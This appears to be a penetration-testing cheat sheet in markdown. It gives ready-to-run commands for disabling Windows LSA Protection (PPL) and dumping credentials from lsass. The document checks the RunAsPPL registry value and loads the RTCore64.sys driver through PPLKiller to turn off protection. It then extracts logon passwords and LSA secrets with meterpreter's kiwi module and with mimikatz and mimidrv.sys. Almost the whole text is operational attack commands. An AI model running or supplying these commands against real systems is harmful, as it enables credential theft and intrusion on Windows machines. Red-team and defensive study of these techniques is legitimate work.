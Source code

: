 ### <ins>Check if PPL is enabled</ins>
CMD: `reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa" /v RunAsPPL` - `0x1` means enabled.

### <ins>Disable PPL using PPLKiller</ins>

Make sure the session you are running with has SYSTEM privleges.
We need to upload the driver to the path:
- Place the driver RTCore64.sys at: `C:\Windows\System32\config\systemprofile\AppData\Local\Temp` - The Temp directory might no exist, just create it - `mkdir Temp`.

Now, we will need to install the driver:
- `.\PPLKiller /installDriver`

Then we will disable LSA Protection: 
- `.\PPLKiller.exe /disableLSAProtection`

Now we can use meterpreter mimikatz module to dump the lsass process: 
- `load kiwi` - `creds_all` - `lsa_dump_secrets`

### <ins>Disable PPL using mimikatz</ins>
Transfer both `mimikatz.exe` and `mimidrv.sys` to the same directory, e.g `C:\Windows\Tasks`.

Dump logonpasswords: 
- `.\mimikatz.exe "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "sekurlsa::logonpasswords" "exit"`

Dump secrets: 
- `.\mimikatz.exe "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "lsadump::secrets" "exit"`

Restore: 
- `.\mimikatz.exe "!processprotect /process:lsass.exe" "!-" "exit"`
